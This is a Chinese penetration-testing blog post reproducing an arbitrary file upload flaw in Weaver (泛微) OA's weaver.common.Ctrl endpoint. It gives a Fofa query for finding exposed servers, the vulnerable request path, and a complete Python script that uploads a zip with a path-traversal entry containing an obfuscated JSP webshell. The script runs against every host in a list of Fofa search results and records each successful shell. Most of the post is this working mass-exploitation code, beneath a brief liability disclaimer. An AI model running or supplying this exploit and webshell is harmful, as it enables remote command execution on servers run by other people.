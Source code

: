 ```yaml
---
title: 泛微OA weaver.common.Ctrl 任意文件上传漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- 泛微OA
- 漏洞复现
- 文件上传
- 渗透测试
abbrlink: 20282
date: 2021-05-20 14:48:04
keywords:
summary:
img:
password:
---
```




### 声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。d



### 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器



### Fofa

```bash
app="泛微-协同办公OA"
```





### 复现

漏洞路径为：

```bash
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```



查看发送的数据包：

![](http://image.xpshuai.cn/fwoa_wiershark.jpg)



使用POC成功上传文件：

![](http://image.xpshuai.cn/fwoa_shell.png)





贴上大佬的批量上传POC脚本(我改过的)：

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)


def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
        with open("success_webshell.txt", "a+") as f2:
            f2.write(GetShellurl + "\n")
    else:
        print('未找到webshell利用失败')

def main():
    # # if (len(sys.argv) == 2):
    # #     url = sys.argv[1]
    #     GetShell(url)
    # else:
    #     print("python3 poc.py http://xx.xx.xx.xx")
    with open("fofa提取结果文件.txt", "r+") as f:
        lines = f.readlines()
        for line in lines:
            try:
                GetShell(line.strip())
            except Exception as e:
                pass


if __name__ == '__main__':
    main()
```

![](http://image.xpshuai.cn/fwoa-py.png)







参考大佬文章链接：https://mp.weixin.qq.com/s/ePYRFPfu-pvWMKSiffporA



